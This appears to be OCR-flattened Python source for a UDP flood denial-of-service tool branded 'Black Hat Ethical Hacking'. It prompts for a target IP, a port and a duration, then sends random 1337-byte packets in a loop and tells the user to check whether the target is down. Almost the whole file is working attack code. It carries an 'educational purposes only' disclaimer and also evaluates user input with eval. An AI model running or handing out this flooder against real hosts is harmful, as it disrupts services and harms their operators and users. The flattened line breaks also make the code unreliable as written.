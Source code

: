 # layer
import sys import os import time import socket import random from termcolor import colored #This is where the magic starts using the power of python from datetime import datetime now = datetime.now() hour = now.hour minute = now.minute day = now.day month = now.month year = now.year  ############## sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM) bytes = random._urandom(1337) ############# #Install Figlet os.system("clear") os.system("apt-get install -y figlet") os.system("figlet Black Hat Ethical Hacking") print() print(colored("Author   : SaintDruG", 'green')) print(colored("Website : https://www.blackhatethicalhacking.com", 'magenta')) print(colored("Github   : https://github.com/blackhatethicalhacking", 'red')) print(colored("Facebook : https://www.facebook.com/secur1ty1samyth", 'green')) print(colored("YouTube : https://www.youtube.com/channel/UC7-AsunT7zO-ny5-U8glqkw", 'green')) print(colored("Linkedin : https://www.linkedin.com/company/black-hat-ethical-hacking/", 'magenta')) print(colored("Instagram : https://www.instagram.com/blackhatethicalhacking/", 'yellow')) print(colored("Twitter : https://twitter.com/secur1ty1samyth", 'green')) print(colored("Security is a myth..   : Follow us &amp; Stay Tuned!", 'magenta')) print(colored("This tool is written for Educational purposes only - helping the defensive team look into how such attacks take place.", 'cyan')) print(colored("BHEH Is not responsible for misusing it and must have an NDA signed to perform such attacks", 'red')) print() ip = input("IP Target : ") port = eval(input("Port       : ")) dur = input("Time: ") timeout = time.time() + int(dur) sent = 0 os.system("clear") os.system("figlet Attack Starting") print(colored("[                    ] 0% ",'blue')) time.sleep(4.9) print(colored("[=====               ] 25%", 'red')) time.sleep(4.9) print(colored("[==========          ] 50%",'magenta')) time.sleep(4.9) print(colored("[===============     ] 75%", 'yellow')) time.sleep(4.9) print(colored("[====================] 100%",'green')) time.sleep(2.9) while True:     try:         if time.time() > timeout:             break         else:             pass         sock.sendto(bytes, (ip, port))         sent += 1         print(colored("Packets are being sent like crazy, check if the target is down... we sent %s packets to this Target: %s" % (             sent, ip), 'green'))     except KeyboardInterrupt:         sys.exit()
